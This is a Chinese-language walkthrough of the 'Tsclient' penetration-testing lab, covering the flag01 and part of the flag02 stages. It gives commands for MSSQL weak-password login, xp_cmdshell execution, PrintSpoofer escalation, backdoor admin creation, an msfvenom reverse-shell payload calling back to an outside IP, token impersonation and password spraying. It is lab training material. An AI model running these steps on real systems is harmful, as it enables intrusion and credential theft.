Tsclient是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有3个flag，分布于不同的靶机。
参考文章
FLAG1

先用fscan扫一下
 mssql服务是弱口令
sa/1qaz!QAZ
用数据库管理工具连上去

接下来要看mssql怎么进行命令执行
参考文章：
https://xz.aliyun.com/news/7129
判断xp_cmdshell状态
select * from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

存在
那我们接下来启动它
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
配置选项 'xp_cmdshell' 已从 0 更改为 1。请运行 RECONFIGURE 语句进行安装。
启动成功
接下来就可以进行命令执行了
exec master..xp_cmdshell 'whoami'

接下来直接vshell一句话上线

没找到flag，发现Administrator文件夹没有权限
想到要提权，传一个PrintSpoofer进行提权
https://github.com/whojeff/PrintSpoofer
1PrintSpoofer.exe -i -c cmd

提权之后拿到flag
1C:\Tmp>type C:\Users\Administrator\flag\flag01.txt
2 _________ ________ ________ ___ ___ _______ ________ _________
3|\___ ___\\ ____\|\ ____\|\ \ |\ \|\ ___ \ |\ ___ \|\___ ___\
4\|___ \ \_\ \ \___|\ \ \___|\ \ \ \ \ \ \ __/|\ \ \\ \ \|___ \ \_|
5 \ \ \ \ \_____ \ \ \ \ \ \ \ \ \ \ \_|/_\ \ \\ \ \ \ \ \
6 \ \ \ \|____|\ \ \ \____\ \ \____\ \ \ \ \_|\ \ \ \\ \ \ \ \ \
7 \ \__\ ____\_\ \ \_______\ \_______\ \__\ \_______\ \__\\ \__\ \ \__\
8 \|__| |\_________\|_______|\|_______|\|__|\|_______|\|__| \|__| \|__|
9 \|_________|
10
11
12Getting flag01 is easy, right?
13
14flag01: flag{5ee60dcf-4f7b-4e2a-977e-cbf1697d8df4}
15
16
17Maybe you should focus on user sessions...
提权之后用提权后的账户重新上一下线
接下来用fscan扫一下内网
1┌──────────────────────────────────────────────┐
2│ ___ _ │
3│ / _ \ ___ ___ _ __ __ _ ___| | __ │
4│ / /_\/____/ __|/ __| '__/ _` |/ __| |/ / │
5│ / /_\\_____\__ \ (__| | | (_| | (__| < │
6│ \____/ |___/\___|_| \__,_|\___|_|\_\ │
7└──────────────────────────────────────────────┘
8 Fscan Version: 2.0.0
9
10[2025-03-09 19:53:19] [INFO] 暴力破解线程数: 1
11[2025-03-09 19:53:19] [INFO] 开始信息扫描
12[2025-03-09 19:53:19] [INFO] CIDR范围: 172.22.8.0-172.22.8.255
13[2025-03-09 19:53:20] [INFO] 生成IP范围: 172.22.8.0.%!d(string=172.22.8.255) - %!s(MISSING).%!d(MISSING)
14[2025-03-09 19:53:20] [INFO] 解析CIDR 172.22.8.0/24 -> IP范围 172.22.8.0-172.22.8.255
15[2025-03-09 19:53:20] [INFO] 最终有效主机数量: 256
16[2025-03-09 19:53:20] [INFO] 开始主机扫描
17[2025-03-09 19:53:20] [INFO] 正在尝试无监听ICMP探测...
18[2025-03-09 19:53:20] [INFO] 当前用户权限不足,无法发送ICMP包
19[2025-03-09 19:53:20] [INFO] 切换为PING方式探测...
20[2025-03-09 19:53:20] [SUCCESS] 目标 172.22.8.31 存活 (ICMP)
21[2025-03-09 19:53:20] [SUCCESS] 目标 172.22.8.18 存活 (ICMP)
22[2025-03-09 19:53:20] [SUCCESS] 目标 172.22.8.15 存活 (ICMP)
23[2025-03-09 19:53:20] [SUCCESS] 目标 172.22.8.46 存活 (ICMP)
24[2025-03-09 19:53:23] [INFO] 存活主机数量: 4
25[2025-03-09 19:53:23] [INFO] 有效端口数量: 233
26[2025-03-09 19:53:23] [SUCCESS] 端口开放 172.22.8.15:88
27[2025-03-09 19:53:23] [SUCCESS] 端口开放 172.22.8.46:80
28[2025-03-09 19:53:23] [SUCCESS] 端口开放 172.22.8.18:80
29[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.18:139
30[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.31:139
31[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.46:135
32[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.15:135
33[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.31:135
34[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.18:135
35[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.46:139
36[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.15:139
37[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.46:445
38[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.15:445
39[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.31:445
40[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.18:445
41[2025-03-09 19:53:24] [SUCCESS] 端口开放 172.22.8.15:389
42[2025-03-09 19:53:26] [SUCCESS] 端口开放 172.22.8.18:1433
43[2025-03-09 19:53:28] [SUCCESS] 服务识别 172.22.8.15:88 =>
44[2025-03-09 19:53:28] [SUCCESS] 服务识别 172.22.8.46:80 => [http]
45[2025-03-09 19:53:28] [SUCCESS] 服务识别 172.22.8.18:80 => [http]
46[2025-03-09 19:53:29] [SUCCESS] 服务识别 172.22.8.18:139 => Banner:[.]
47[2025-03-09 19:53:29] [SUCCESS] 服务识别 172.22.8.31:139 => Banner:[.]
48[2025-03-09 19:53:29] [SUCCESS] 服务识别 172.22.8.46:139 => Banner:[.]
49[2025-03-09 19:53:29] [SUCCESS] 服务识别 172.22.8.15:139 => Banner:[.]
50[2025-03-09 19:53:30] [SUCCESS] 服务识别 172.22.8.46:445 =>
51[2025-03-09 19:53:30] [SUCCESS] 服务识别 172.22.8.15:445 =>
52[2025-03-09 19:53:30] [SUCCESS] 服务识别 172.22.8.31:445 =>
53[2025-03-09 19:53:30] [SUCCESS] 服务识别 172.22.8.18:445 =>
54[2025-03-09 19:53:31] [SUCCESS] 服务识别 172.22.8.18:1433 => [ms-sql-s] 版本:13.00.1601 产品:Microsoft SQL Server 2016 系统:Windows Banner:[.%.A.]
55[2025-03-09 19:53:35] [SUCCESS] 服务识别 172.22.8.15:389 =>
56[2025-03-09 19:54:29] [SUCCESS] 服务识别 172.22.8.15:135 =>
57[2025-03-09 19:54:29] [SUCCESS] 服务识别 172.22.8.46:135 =>
58[2025-03-09 19:54:29] [SUCCESS] 服务识别 172.22.8.31:135 =>
59[2025-03-09 19:54:29] [SUCCESS] 服务识别 172.22.8.18:135 =>
60[2025-03-09 19:54:29] [INFO] 存活端口数量: 17
61[2025-03-09 19:54:30] [INFO] 开始漏洞扫描
62[2025-03-09 19:54:30] [INFO] 加载的插件: findnet, ldap, ms17010, mssql, netbios, smb, smb2, smbghost, webpoc, webtitle
63[2025-03-09 19:54:30] [SUCCESS] NetInfo 扫描结果
64目标主机: 172.22.8.18
65主机名: WIN-WEB
66发现的网络接口:
67 IPv4地址:
68 └─ 172.22.8.18
69 IPv6地址:
70 └─ 2001:0:348b:fb58:1445:3719:d89d:8092
71[2025-03-09 19:54:30] [SUCCESS] NetBios 172.22.8.31 XIAORANG\WIN19-CLIENT
72[2025-03-09 19:54:30] [SUCCESS] NetInfo 扫描结果
73目标主机: 172.22.8.15
74主机名: DC01
75发现的网络接口:
76 IPv4地址:
77 └─ 172.22.8.15
78[2025-03-09 19:54:30] [SUCCESS] NetInfo 扫描结果
79目标主机: 172.22.8.46
80主机名: WIN2016
81发现的网络接口:
82 IPv4地址:
83 └─ 172.22.8.46
84[2025-03-09 19:54:30] [SUCCESS] NetInfo 扫描结果
85目标主机: 172.22.8.31
86主机名: WIN19-CLIENT
87发现的网络接口:
88 IPv4地址:
89 └─ 172.22.8.31
90[2025-03-09 19:54:30] [SUCCESS] NetBios 172.22.8.46 WIN2016.xiaorang.lab Windows Server 2016 Datacenter 14393
91[2025-03-09 19:54:30] [SUCCESS] NetBios 172.22.8.15 DC:XIAORANG\DC01
92[2025-03-09 19:54:30] [SUCCESS] 网站标题 http://172.22.8.46 状态码:200 长度:703 标题:IIS Windows Server
93[2025-03-09 19:54:30] [SUCCESS] 网站标题 http://172.22.8.18 状态码:200 长度:703 标题:IIS Windows Server
94[2025-03-09 19:54:31] [SUCCESS] MSSQL 172.22.8.18:1433 sa 1qaz!QAZ
95[2025-03-09 19:54:53] [SUCCESS] 扫描已完成: 32/32
扫到三台机子
NetBios 172.22.8.46 WIN2016.xiaorang.lab
NetBios 172.22.8.31 XIAORANG\WIN19-CLIENT
NetBios 172.22.8.15 DC:XIAORANG\DC01
没有什么能直接利用的服务
那我们接着信息收集一下
net user
主机名: WIN-WEB
OS 名称: Microsoft Windows Server 2016 Datacenter
OS 版本: 10.0.14393 暂缺 Build 14393
OS 制造商: Microsoft Corporation
OS 配置: 独立服务器
OS 构件类型: Multiprocessor Free
注册的所有人:
注册的组织: Aliyun
产品 ID: 00376-40000-00000-AA947
初始安装日期: 2022/7/11, 12:46:14
系统启动时间: 2025/3/9, 18:28:29
系统制造商: Alibaba Cloud
系统型号: Alibaba Cloud ECS
系统类型: x64-based PC
处理器: 安装了 1 个处理器。
[01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
BIOS 版本: SeaBIOS 449e491, 2014/4/1
Windows 目录: C:\Windows
系统目录: C:\Windows\system32
启动设备: \Device\HarddiskVolume1
系统区域设置: zh-cn;中文(中国)
输入法区域设置: zh-cn;中文(中国)
时区: (UTC+08:00) 北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量: 3,950 MB
可用的物理内存: 883 MB
虚拟内存: 最大值: 5,848 MB
虚拟内存: 可用: 1,169 MB
虚拟内存: 使用中: 4,679 MB
页面文件位置: C:\pagefile.sys
域: WORKGROUP
登录服务器: 暂缺
修补程序: 安装了 6 个修补程序。
[01]: KB5013625
[02]: KB4049065
[03]: KB4486129
[04]: KB4486131
[05]: KB5014026
[06]: KB5013952
网卡: 安装了 1 个 NIC。
[01]: Red Hat VirtIO Ethernet Adapter
连接名: 以太网
启用 DHCP: 是
DHCP 服务器: 172.22.255.253
IP 地址
[01]: 172.22.8.18
[02]: fe80::205a:dd47:2165:6397
Hyper-V 要求: 已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
C:\Tmp>net user
\\ 的用户帐户
-------------------------------------------------------------------------------
Administrator DefaultAccount Guest
John test
命令运行完毕，但发生一个或多个错误。
C:\Tmp>quser
用户名 会话名 ID 状态 空闲时间 登录时间
john rdp-tcp#0 2 运行中 2:38 2025/3/9 18:30
发现一个john用户远程连接本台机子
为了方便可以新建一个用户rdp连上去
C:\Tmp>net user xrntkk Abc20060201 /add
命令成功完成。
C:\Tmp>net localgroup administrators xrntkk /add
命令成功完成。
C:\Tmp>REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
操作成功完成。

管理员权限可以偷RDP用户的token，从而查看其挂载的盘。
这里可以用msf的incognito模块
ubuntu@VM-20-9-ubuntu:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=106.55.168.231 LPORT=9999 -f exe -o msf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: msf.exe
先用msf上个线
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 106.55.168.231
set lport 9999
exploit

上线
接着用incognito模块偷John的token
1meterpreter > use incognito
2Loading extension incognito...Success.
3meterpreter > list_tokens -u
4
5Delegation Tokens Available
6========================================
7IIS APPPOOL\DefaultAppPool
8NT AUTHORITY\LOCAL SERVICE
9NT AUTHORITY\NETWORK SERVICE
10NT AUTHORITY\SYSTEM
11NT SERVICE\MsDtsServer130
12NT SERVICE\MSSQLFDLauncher
13NT SERVICE\MSSQLSERVER
14NT SERVICE\MSSQLServerOLAPService
15NT SERVICE\ReportServer
16NT SERVICE\SQLTELEMETRY
17NT SERVICE\SSASTELEMETRY
18NT SERVICE\SSISTELEMETRY130
19WIN-WEB\John
20WIN-WEB\test
21WIN-WEB\xrntkk
22Window Manager\DWM-1
23Window Manager\DWM-2
24Window Manager\DWM-3
25Window Manager\DWM-4
26
27Impersonation Tokens Available
28========================================
29No tokens available
可以看到已经拿到John的token了
以John的身份运行cmd
1meterpreter > impersonate_token WIN-WEB\\John
2[+] Delegation token available
3[+] Successfully impersonated user WIN-WEB\John
4meterpreter > shell
5Process 7508 created.
6Channel 1 created.
7...
8
9C:\Tmp>whoami
10whoami
11win-web\john
net use

看一下挂载情况（不知道为啥我这乱码了）
挂载了c盘
查看c盘中的credential.txt文件
C:\Tmp>type \\TSCLIENT\C\credential.txt
type \\TSCLIENT\C\credential.txt
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#
Do you know how to hijack Image?
这里有一串账号密码，用这串账号密码进行一个密码喷洒
crackmapexec -q smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Z!#
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 -q crackmapexec smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Zproxychains4 crackmapexec smb 172.22.8.0/24
-u Aldrich -p Ald@rLMWuy7Z
SMB 172.22.8.18 445 WIN-WEB [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:WIN-WEB) (signing:False) (SMBv1:True)
SMB 172.22.8.46 445 WIN2016 [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB 172.22.8.31 445 WIN19-CLIENT [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB 172.22.8.46 445 WIN2016 [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB 172.22.8.15 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB 172.22.8.18 445 WIN-WEB [-] WIN-WEB\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB 172.22.8.31 445 WIN19-CLIENT [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
SMB 172.22.8.15 445 DC01 [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z STATUS_LOGON_FAILURE
可以看到这三台机貌似都能登上去
SMB 172.22.8.46 445 WIN2016 [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB 172.22.8.31 445 WIN19-CLIENT [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB 172.22.8.15 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
我这里选择登31
proxychains4 rdesktop 172.22.8.31 -u Aldrich -d xiaorang.lab -p 'Ald@rLMWuy7Z!#'
这里要用rdesktop登，rdp登不上
会提示密码过期，改个密码就行了

但是改完密码这台机还是登不上，没有登陆权限
所以我们尝试用这个修改后的账号密码再去登这个账号的另一台机子
成功在46中登入，后面还是用rdp吧，rdesktop也太卡了
xiaorang.lab\Aldrich
Abc123456
FLAG2
信息收集一下
可以看到我们已经拿下域内的一台机子了
systeminfo

